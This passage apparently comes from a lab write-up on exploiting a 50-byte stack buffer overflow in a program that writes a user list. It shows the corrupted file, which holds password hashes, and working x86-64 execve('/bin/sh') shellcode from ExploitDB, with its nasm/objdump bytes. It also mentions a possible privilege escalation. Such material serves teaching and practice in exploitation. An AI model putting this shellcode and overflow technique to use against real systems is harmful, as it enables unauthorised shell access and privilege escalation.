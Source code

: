 If we look into the `userlist` file we can see that our write was succsessful.

```
root:2f99191d04198a3f778043dda155ba0f:0:/root:/bin/bash
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@@:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:1094795585:AAAAAAAAAAAA�@@:/usr/bin/rbash
mario:5e455c58e29cce3c164506ee28f72ccc:10001:/home/mario:/usr/sbin/nologin
alberto:x:10002:/home/alberto:/usr/bin/rbash
livero:x:1003:/home/livero:/usr/bin/rbash
emil:202cb962ac59075b964b07152d234b70:10004:/home/emil:/bin/sh
```

Currently we are only writing the `A`s we put on the stack to overflow the buffer to the list, with a little more care this could probably be crafted to a payload which would elevate our privileges.

### Shellcode execution

To execute shellcode the code had to be injected into the buffer which can be overflown and then have the return address point to the beginning address of this buffer. 

For this the shellcode needs to fit into the buffer which has a size of 50 bytes. A quick Google search gives us a suitable shellcode candidate found on [ExploitDB](https://www.exploit-db.com/exploits/46907).

```Assembly
global _start
section .text
_start:
	xor rsi,rsi
	push rsi
	mov rdi,0x68732f2f6e69622f
	push rdi
	push rsp
	pop rdi
	push 59
	pop rax
	cdq
	syscall
```

This assembly code can than be translated into a series of bytes using the `nasm` command.

```bash
$ nasm -f elf64 shellcode.asm -o shellcode.o
$ ld shellcode.o -o shellcode
$ objdump -D shellcode

shellcode:     Dateiformat elf64-x86-64


Disassembly of section .text:

0000000000401000 <_start>:
  401000:       48 31 f6                xor    %rsi,%rsi
  401003:       56                      push   %rsi
  401004:       48 bf 2f 62 69 6e 2f    movabs $0x68732f2f6e69622f,%rdi
  40100b:       2f 73 68
  40100e:       57                      push   %rdi
  40100f:       54                      push   %rsp
  401010:       5f                      pop    %rdi
  401011:       6a 3b                   push   $0x3b
  401013:       58                      pop    %rax
  401014:       99                      cltd
  401015:       0f 05                   syscall
```
